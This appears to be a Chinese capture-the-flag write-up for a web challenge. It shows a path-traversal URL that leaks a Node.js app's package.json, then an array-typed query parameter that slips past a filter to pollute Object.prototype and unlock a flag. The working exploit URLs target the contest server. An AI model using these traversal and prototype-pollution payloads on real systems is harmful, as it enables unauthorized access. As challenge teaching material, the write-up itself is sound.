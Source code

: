第一步和“早期人类的聊天室”相似，实际上我还是先完成的这道题，这道题给出的错误提示丰富一些，所以很好发现，比如访问`https://prob11-s76fiqdc.geekgame.pku.edu.cn/api/..%2F`会得到：
```text
Error: EISDIR: illegal operation on a directory, read
    at Object.readSync (fs.js:617:3)
    at tryReadSync (fs.js:382:20)
    at Object.readFileSync (fs.js:419:19)
    at /usr/src/app/node_modules/jsonaas-backend/index.js:56:19
    at Layer.handle [as handle_request] (/usr/src/app/node_modules/express/lib/router/layer.js:95:5)
    at next (/usr/src/app/node_modules/express/lib/router/route.js:137:13)
    at Route.dispatch (/usr/src/app/node_modules/express/lib/router/route.js:112:3)
    at Layer.handle [as handle_request] (/usr/src/app/node_modules/express/lib/router/layer.js:95:5)
    at /usr/src/app/node_modules/express/lib/router/index.js:281:22
    at param (/usr/src/app/node_modules/express/lib/router/index.js:354:14)
```

显然服务器在用node.js，所以读取`../package.json`（恰好这是个json文件，所以服务端代码将正常工作并且得到期望的输出）即得源代码（及源代码中包含的flag0）：
```json
{"name":"demo-server","version":"1.0.0","description":"","scripts":{"start":"node --max-http-header-size=32768 start.js"},"author":"You","license":"WTFPL","dependencies":{"jsonaas-backend":"https://geekgame.pku.edu.cn/static/super-secret-jsonaas-backend-1.0.1.tgz"}}
```

得到源码之后看看原理，首先对premium版本的检测是依靠`express-session`，这是一个数据保存在服务器的session实现，所以能在客户端直接对cookie动手脚的概率不是很大。另外在处理`in_path`和`out_path`时看到了一些奇怪的参数检查，这个像是在避免javascript的经典攻击prototype pollution，但这个代码长得就不像是一个完备检查，大概率可以绕过。

仔细看一遍发现`/api/:path(*)`这个路由上完全没有检查输入类型，如果输入`out_path`是一个数组，那么第35行在函数`waf(str)`里`str.indexOf`会检查数组中有无恰好相等的元素，而第89行`out_path = prefix + out_path`会直接把`out_path`转化为字符串（因为`prefix`是字符串），进而导致出现之前没检查出来的字符串子串。

所以构造输入以覆写`Object.prototype.activated`为某个object`X`（其中`Object`可以用`({}).constructor`得到），这样访问`activated`将从默认`undefined`变为默认`X`，访问`/activate`就可以得到flag1了：
```js
if(req.session.activated)
    res.send(`You have been activated. Activation code: ${FLAG1}`);
else
    res.send('Wrong activation code :(');
```

翻看express.js默认用来解析URL参数的库qs，发现它确实支持输入一个数组，语法为`A[0]=B&A[1]=C&...`，因此构造输入使得`out_path`取值为`['constructor/prototype/activated']`即可：
```text
https://prob11-s76fiqdc.geekgame.pku.edu.cn/api/demo.json?out_path[0]=constructor%2Fprototype%2Factivated
```

回头看了一下发现代码里有一些奇怪的暗示，比如：
 1. 只有在输出flag时用了`if(req.session.activated)`这个判断，其他时候都是`if(req.session.activated!==1)`。
 2. 处理`out_path`的循环里写了
    ```js
    if(cur[term]===undefined)
        cur[term] = {};
    cur = cur[term];
    ```
    这看上去就十分诡异，因为正常人写这段代码不会认为`cur[term]`有可能不是`undefined`，那么他只会这么写：
    ```js
    cur[term] = {};
    cur = cur[term];
    ```
    （不过硬要解释可以理解为这段代码是从上面处理`in_path`的代码段里偷懒复制下来的，也不是说不通。）
